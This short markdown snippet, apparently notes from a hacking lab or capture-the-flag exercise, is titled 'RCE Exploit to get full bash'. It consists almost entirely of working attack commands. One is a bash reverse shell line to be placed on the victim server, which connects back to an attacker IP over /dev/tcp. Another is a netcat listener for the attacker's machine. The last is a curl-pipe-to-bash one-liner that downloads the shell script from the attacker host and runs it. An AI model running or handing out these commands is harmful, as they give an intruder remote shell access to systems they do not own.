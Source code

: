 ## RCE Exploit to get full bash

this have to be on the server that should be exploited
```bash

#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/6565 0>&1'


```


```bash
    nc -lvnp 6565
```
creates the corresponding netcat server on the controller

a way to run it from a server:

```bash
curl 10.10.14.190:8003/rce.sh|bash
```

